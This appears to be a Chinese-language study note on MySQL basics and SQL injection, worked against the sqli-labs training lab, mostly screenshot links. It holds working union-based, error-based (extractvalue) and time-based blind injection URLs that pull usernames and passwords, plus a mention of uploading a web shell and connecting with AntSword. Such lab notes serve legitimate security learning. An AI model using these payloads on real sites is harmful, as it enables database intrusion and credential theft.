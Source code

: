 ## 增删改

登录数据库 `mysql -uroot -p`

查看数据库 `show databases;`

创建数据库 `creare database <数据库名>charset utf8`

删除数据库 `drop database <数据库名>`

创建数据表 `create table <数据库名>`

## 数据库查询

![1686670206235](image/SQL/1686670206235.png)

![1686670621759](image/SQL/1686670621759.png)

![1686671869053](image/SQL/1686671869053.png)

![1686671912742](image/SQL/1686671912742.png)

![1686671950093](image/SQL/1686671950093.png)

## SQL注入基础

![1686703581560](image/SQL/1686703581560.png)

![1686703870062](image/SQL/1686703870062.png)

![1686703914643](image/SQL/1686703914643.png)

![1686704528929](image/SQL/1686704528929.png)

![1686704564533](image/SQL/1686704564533.png)

![1686707211907](image/SQL/1686707211907.png)

![1686707167676](image/SQL/1686707167676.png)

![1686706779060](image/SQL/1686706779060.png)

![1686706994634](image/SQL/1686706994634.png)

![1686707088801](image/SQL/1686707088801.png)

![1686709251217](image/SQL/1686709251217.png)

```sql
http://172.20.54.84/Less-2/?id=-1 union select 1,group_concat(column_name),(select group_concat(username,password) from users) from information_schema.columns where table_schema=database() and table_name='users' --+
```

## 报错注入

![1686709473763](image/SQL/1686709473763.png)

![1686710574190](image/SQL/1686710574190.png)

![1686710601191](image/SQL/1686710601191.png)

![1686710682586](image/SQL/1686710682586.png)

![1686712368312](image/SQL/1686712368312.png)

```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))--+
```

```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users )))--+
```

## 布尔盲注

![1686753102842](image/SQL/1686753102842.png)

![1686753129610](image/SQL/1686753129610.png)

## 时间盲注

![1686754378352](image/SQL/1686754378352.png)

```sql
1.http://172.28.72.167/Less-9/?id=1' and if(ascii(substr((select  database()),1,1))=115,sleep(0),sleep(3)) --+  //115=s
2.http://172.28.72.167/Less-9/?id=1' and if(ascii(substr((select  database()),2,1))=101,sleep(0),sleep(3)) --+  //101=e
//重复判断得到数据库名称为 security
```

![1686755732542](image/SQL/1686755732542.png)

![1686755755740](image/SQL/1686755755740.png)

## SQL注入文件上传

![1686756069227](image/SQL/1686756069227.png)

![1686756340257](image/SQL/1686756340257.png)

![1686796376297](image/SQL/1686796376297.png)

> 一句话木马上传后使用蚁剑连接

## POST注入

![1686802321843](image/SQL/1686802321843.png)

![1686802337256](image/SQL/1686802337256.png)

![1686802379810](image/SQL/1686802379810.png)

![1686802397097](image/SQL/1686802397097.png)

![1686802413813](image/SQL/1686802413813.png)

